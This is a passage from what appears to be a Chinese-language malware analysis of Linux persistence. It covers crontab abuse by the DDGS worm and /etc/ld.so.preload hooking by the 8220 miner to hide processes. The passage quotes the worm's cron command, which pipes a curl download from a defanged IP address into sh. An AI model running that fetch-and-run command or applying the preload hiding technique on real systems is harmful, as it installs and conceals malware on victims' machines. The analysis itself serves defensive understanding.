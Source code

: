Linux 上的 Crontab 定时任务通常用于保存许多恶意软件。恶意软件不仅将自身写入用户的 crontab 文件，还会写入软件包中的 crontab 文件，例如/etc/cron.d。因此，恶意软件不太可能被检测到。在 Windows 上，类似的驻留方法是通过运行计划任务和修改注册表来实现的。下图显示了恶意的 DDGS 蠕虫是如何通过 Crontab 启动的。

*   DDGS 运行 Crond 调度任务启动恶意外壳:`/bin/sh -c curl -fsSL http://218[.] 248[.] 40[.]228:9999/i.sh?6 | sh`

![](img/d53afc86f0390d90eb6dca48e31af130.png)

2.预加载动态链接库

根据 Linux 上的动态链接库预加载机制，用户自定义的动态链接库在其他常规系统库之前被预加载。如果用户定义库中的函数与系统库中的函数同名，则用户定义库中的函数会覆盖系统库中的函数。通过预加载动态链接库，攻击者可以挂钩 libc 中的 readdir 等常见函数。当 ps 和 top 等 shell 命令试图读取/proc/目录以获取进程信息时，攻击者可以隐藏恶意软件。

*   如下图所示，8220 Miner 使用这种技术劫持 Linux 上的动态链接库配置文件/etc/ld.so.preload。

![](img/7f8ff3e7c1a3b2871bd012fd59e591ef.png)

# 无文件攻击技术

